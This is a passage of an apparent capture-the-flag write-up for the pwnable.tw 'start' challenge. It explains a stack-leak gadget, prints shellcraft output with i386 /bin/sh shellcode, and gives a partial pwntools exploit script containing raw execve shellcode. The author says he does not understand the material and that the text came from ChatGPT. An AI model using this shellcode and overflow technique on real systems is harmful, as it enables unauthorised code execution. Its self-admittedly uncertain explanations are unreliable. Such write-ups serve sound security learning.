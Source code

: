 We want to search for esp.&#x20;

The address 0x08048087 points to a little “gadget” that makes a write system call. In our exploit, we overwrite EIP with that address so that when the program returns, it executes these instructions:

* **mov ecx, esp:** This sets the ECX register to point to the current stack pointer, where our payload (including our shellcode) is located.
* **mov dl, 0x14; mov bl, 1; mov al, 4:** These instructions load the appropriate values into registers so that when the interrupt is triggered, the parameters for the write system call are set up. Here, EAX = 4 specifies sys\_write, EBX = 1 means “write to stdout,” and EDX = 0x14 tells write to output 20 bytes.
* **int 0x80:** This performs the system call.

By jumping to this gadget, we cause the process to write (leak) the bytes at our stack. Basically, if we want to inject our shellcode and execute it, we want to put it in the stack, so we search for top of the stack address. (I also dont know what im talking about so help me too) Now we want a shellcode. We can use shellcraft or MSFVenom to get it.

For shellcraft, remember our file command? `start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped`. It shows that our binary is a 32-bit binary built for the Intel 80386 architecture, which is commonly referred to as **i386**.&#x20;

```bash
$ shellcraft -l
aarch64.android.cat
aarch64.android.cat2
aarch64.android.connect
...
i386.linux.sh
...
thumb.to_arm
thumb.trap
thumb.udiv_10
```

Now get the required shellcode

```bash
$ shellcraft i386.linux.sh
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
```

You can specify `shellcode = asm(shellcraft.i386.linux.sh())` when doing pwntools script. Here is the exploit. Notice that I didn't use the shellcraft shellcode because I couldn't make it to work. This is \[@duckie]\([https://hackmd.io/@duckie/start\_pwnabletw](https://hackmd.io/@duckie/start_pwnabletw)) shellcode. I WILL COME BACK TO THIS PAGE BECAUSE I DID NOT KNOW ANYTHING ABOUTTHIS. HERE IS ALL THE CHATGPT!!

```python
#!/usr/bin/env python3
from pwn import *

context(os='linux', arch='i386')

# shellcode = asm(shellcraft.i386.linux.sh())
shellcode = b"\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x31\xd2\x31\xc9\x31\xd2\x89\xe3\xb0\x0b\xcd\x80\x30\xc0\xfe\xc0\xcd\x80"

p = remote('chall.pwnable.tw',10000)

prompt = p.recvuntil(b'CTF:')
log.info(f"Received prompt: {prompt}")

padding = b'A' * 20

payload_stage1 = padding + p32(0x08048087)

p.send(payload_stage1)

```